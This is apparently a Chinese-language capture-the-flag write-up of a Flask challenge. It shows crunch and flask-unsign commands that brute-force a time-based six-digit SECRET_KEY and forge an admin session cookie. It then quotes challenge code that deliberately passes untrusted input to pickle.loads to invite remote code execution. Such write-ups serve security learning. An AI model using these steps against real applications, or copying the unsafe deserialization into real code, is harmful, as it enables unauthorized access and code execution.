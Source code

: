 [pickle—— Python 物件序列化](https://docs.python.org/zh-tw/dev/library/pickle.html)

**flask-session伪造**

访问/flag

![image-20240216175047386](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240216175047386.png)

由以下代码可知，SECRET_KEY为6位数字

```python
currentDateAndTime = datetime.now(timezone('Asia/Shanghai'))
currentTime = currentDateAndTime.strftime("%H%M%S")

app = Flask(__name__)
# Tips: Try to crack this first ↓
app.config['SECRET_KEY'] = currentTime
```

使用crunch生成6位数字字典

```
crunch 6 6 0123456789 -o ~/000000-999999.txt
```

爆破SECRET_KEY

```
flask-unsign  --unsign --cookie "eyJ1c2VybmFtZSI6Imd1ZXN0In0.Zc8itA.-x96nzpnRAmc-tQCxN5uxYLhlQA" --no-literal-eval --wordlist 000000-999999.txt
```

![image-20240216165501808](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240216165501808.png)

得到SECRET_KEY为165350并进行session伪造

```
flask-unsign --sign --cookie "{'username': 'admin'}" --secret 165350 --no-literal-eval
```

将cookie写入浏览器，访问`/flag`接口进行验证

![image-20240216165958482](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240216165958482.png)

**pickle反序列化rce**

```python
@app.route('/flag', methods=['GET', 'POST'])
def flag():
    ...
    ...
    # For POST requests from admin
    if session['username'] == 'admin':
        pickle_data=base64.b64decode(request.form.get('pickle_data'))
        # Tips: Here try to trigger RCE
        userdata=pickle.loads(pickle_data)
        return userdata
    ...
```
